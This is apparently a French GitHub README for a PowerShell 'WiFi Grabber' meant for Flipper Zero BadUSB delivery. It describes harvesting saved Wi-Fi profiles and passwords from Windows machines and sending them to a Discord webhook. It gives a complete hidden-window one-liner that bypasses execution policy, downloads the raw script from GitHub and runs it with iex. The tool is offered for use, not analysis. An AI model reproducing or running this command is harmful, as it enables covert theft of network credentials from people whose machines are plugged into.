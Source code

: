 # 📡 WiFi Grabber PowerShell

Un script PowerShell léger qui extrait les profils Wi-Fi enregistrés sur une machine Windows (FR) et envoie les identifiants masqués vers un webhook Discord.

---

## 🚀 Fonctionnalités

- 🔍 Récupère tous les profils Wi-Fi (`netsh wlan show profiles`)
- 🔑 Extrait les clés Wi-Fi stockées localement
- 🕵️ Formate les mots de passe Wi-Fi en **spoiler Discord** (`||motdepasse||`)
- 📤 Envoie l’ensemble des infos dans **un seul message** via un webhook Discord

---

## 🧪 Exemple de résultat

📶 Réseau : Livebox_Maison
 🔑 Clé : ||motdepasse123||

📶 Réseau : GUEST_WIFI 🔑
 Clé : ||weloveunifi||

---

## ⚙️ Utilisation


### 1. Héberger le script en version RAW 

### 2. Exécution via ligne de commande PowerShell (ou Flipper Zero BadUSB)

`Windows + R`

```bash
powershell -w h -NoP -Ep Bypass $webhook='https://discord.com/api/webhooks/TON_ID/TON_TOKEN';irm https://raw.githubusercontent.com/Transversed/Flipper-Zero/refs/heads/main/BadUSB/Wifi-Grabber/Wifi-Grabber.ps1  | iex
```





![PowerShell](https://img.shields.io/badge/script-PowerShell-blue?logo=powershell)
